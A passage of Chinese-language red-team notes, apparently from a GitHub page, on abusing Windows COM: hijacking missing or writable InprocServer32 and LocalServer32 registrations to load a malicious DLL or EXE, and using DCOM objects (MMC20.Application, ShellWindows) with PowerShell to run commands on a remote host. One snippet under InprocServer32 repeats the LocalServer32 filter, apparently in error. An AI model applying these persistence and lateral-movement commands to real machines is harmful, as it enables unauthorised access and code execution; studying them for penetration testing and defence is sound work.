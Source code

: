 通过ProcMon查找对注册表中对含InprocServer32的键的访问，若发现没找到对应CLSID的情况则创建对应键并写入恶意dll/exe

缺点是需要管理员权限

#### 覆盖COM键

可以使用oleview过滤程序启动权限为空的COM组件，可以直接覆盖其InprocServer32键

### COM注册表滥用

#### LocalServer32

列举本地或远程的COM接口，且LocalServer32不为null

```powershell
gwmi Win32_COMSetting | ?{$_.LocalServer32 -ne $null}
gwmi Win32_COMSetting -computername 127.0.0.1 | ?{$_.LocalServer32 -ne $null}
```

寻找其对应值的文件不存在的情况，且查看对应文件夹权限是否可以写入。若可以写入则可以劫持该COM组件

#### InprocServer32

类似，但劫持的是dll

```powershell
gwmi Win32_COMSetting | ?{$_.LocalServer32 -ne $null}
```

若遇到可写的dll路径，可以使用下属命令启动对应COM组件

```
rundll32 -sta {CLSID}
```

### DCOM横移

一般调用DCOM连接远程计算机时，已经具有本地管理员的权限

枚举支持DCOM的程序

```powershell
Get-CimInstance -class Win32_DCOMApplication | select appid,name
```

使用DCOM执行命令

```powershell
# MMC
# 创建COM对象
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "192.168.1.1"))
# 查看方法
$com.Document.ActiveView | gm
# 执行命令
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c calc","Minimzed")

# ShellWindows
$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1.1")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe","c:\windows\system32",$null, 0)
```
